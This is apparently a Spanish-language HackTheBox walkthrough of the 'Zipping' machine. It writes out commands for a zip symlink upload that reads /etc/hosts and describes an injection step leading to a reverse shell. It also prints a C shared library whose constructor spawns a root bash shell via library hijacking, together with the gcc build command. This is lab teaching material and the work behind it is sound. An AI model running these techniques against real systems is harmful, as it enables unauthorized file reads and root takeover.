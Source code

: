 # Zipping

Hola, hoy tengo una guia de una maquina de HackTheBox, en las cuales estaremos viendo explotación a partir de subida de archivos y secuestro de librerias para escalada de privilegios. Esta maquina ya la habia resuelto con el metodo del null byte en un archivo zip, pero esto fue parcheado hace unos meses así que mostraré un metodo alterno, por lo que me saltaré la parte de los escaneos

- Plataforma: HackTheBox
- Dificultad: Medium
- OS: Linux
- IP: 10.10.11.229

- Tenemos dos puertos abiertos, el 80 y 22, la pagina web tiene un apartado para subir archivos zip, nosotros crearemos un link simbolico a /etc/hosts de esta forma:
~~~ bash 
ln -s ../../../../../../etc/hosts document.pdf
zip --symlinks zip.zip document.pdf
~~~
- Ahora al subirlo vemos que hay conectividad y una respuesta por parte del servidor, por lo que podemos concluir que es vulnerable a LFI, devolviéndome una cadena de texto en base64:
![[Pasted image 20231103165506.png]]
![[Pasted image 20231103165521.png]]
- También podemos comprobarlo bajando el archivo directamente:
  ![[Pasted image 20231103165714.png]]![[Pasted image 20231103165726.png]]
  - A este punto me quedé sin ideas, hasta que se me ocurrió bajar algunos de los archivos que nos muestra como trabaja la aplicación por detrás, en cart.php encontré algo interesante:

![[Pasted image 20231103171141.png]]
- Según HackTricks podemos ofuscar un payload a través de un bit nulo %0A, si tenemos exito deberiamos ver un codigo de redirección 302:
- Al parecer el servicio de mysql se ejecuta como root, por lo que podremos intentar utilizarlo para que ejecute nuestro payload:
  ![[Pasted image 20231103171952.png]]
  - Y podemos ver que nos responde correctamente, por lo que intentaremos inyectar el payload a través de este metodo:
  - Primero, creamos nuestro payload, encondeando 2 veces en base64:
![[Pasted image 20231103174330.png]]
- Después, creamos un archivo en php con la siguiente cadena:
  ![[Pasted image 20231103174410.png]]
  - Y encodeamos este payload en base64 para así poder subirlo de la siguiente forma:
![[Pasted image 20231103174444.png]]
![[Pasted image 20231103175237.png]]
- Perfecto, el archivo está subido y lo único que debemos hacer es tener un listener en nuestro puerto 4444 y solicitar en payload con GET:
![[Pasted image 20231103175302.png]]
![[Pasted image 20231103175317.png]]


***
<h3>PrivEsc</h3>

- Podemos encontrar un vector de ataque bastante rápido, al observar que podemos ejecutar un binario como sudo:
  ![[Pasted image 20231103175500.png]]
  - Ejecutamos el binario y observamos que solicita una contraseña:

![[Pasted image 20231103175554.png]]
- Llegó la hora de examinar el binario, primero que nada utilizaremos strings, podemos ver que es un binario compilado en C, además de lo que parece ser una contraseña:
  ![[Pasted image 20231103175721.png]]
  Al ingresar la contraseña, el binario simplemente deja de funcionar, al parecer se congela:
  ![[Pasted image 20231103183841.png]]
  - Observamos que intenta llamar a una librería que no existe, por lo cual podemos reemplazar esta con una bash ejecutada desde un archivo C, que crearemos desde /tmp y compilaremos con gcc en la dirección donde debería estar
~~~ c 
#include <stdio.h>
#include <stdlib.h>
void false_lib() { system("/bin/bash"); } 
__attribute__((constructor)) void setup() { false_lib(); }
~~~
 - Este archivo ejecuta una bash a través de la función `setup` que se ejecutará automáticamente antes de la función `main` gracias al atributo `__attribute__((constructor))`, aprovechándonos de que se ejecutará como root, ganaremos privilegios instantáneamente.

   ~~~ bash 
   gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC lib.c
   ~~~
   ![[Pasted image 20231103193618.png]]
 - Y finalmente somos root :D
